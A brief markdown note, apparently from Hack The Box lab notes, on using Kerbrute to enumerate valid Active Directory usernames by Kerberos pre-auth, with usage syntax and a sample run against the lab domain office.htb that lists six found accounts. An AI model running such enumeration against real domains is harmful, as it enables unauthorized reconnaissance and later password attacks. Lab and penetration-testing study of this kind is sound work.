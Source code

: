# Kerbrute

Kerbrute is a tool to perform Kerberos pre-auth bruteforcing. It is a tool that can be used to enumerate valid usernames on a domain using the Kerberos protocol.

## Usage

```bash
kerbrute userenum -d <target> --dc <ip> <wordlist>
kerbrute userenum -d office.htb --dc 10.10.11.3 ~/Documents/Security/wordlists/jsmith.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/25/24 - Ronnie Flathers @ropnop

2024/03/25 21:55:44 >  Using KDC(s):
2024/03/25 21:55:44 >   10.10.11.3:88

2024/03/25 21:56:07 >  [+] VALID USERNAME:       ewhite@office.htb
2024/03/25 21:57:32 >  [+] VALID USERNAME:       dmichael@office.htb
2024/03/25 21:57:43 >  [+] VALID USERNAME:       dwolfe@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       tstark@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       hhogan@office.htb
2024/03/25 21:58:11 >  [+] VALID USERNAME:       ppotts@office.htb
2024/03/25 22:10:21 >  Done! Tested 48705 usernames (6 valid) in 876.820 seconds
```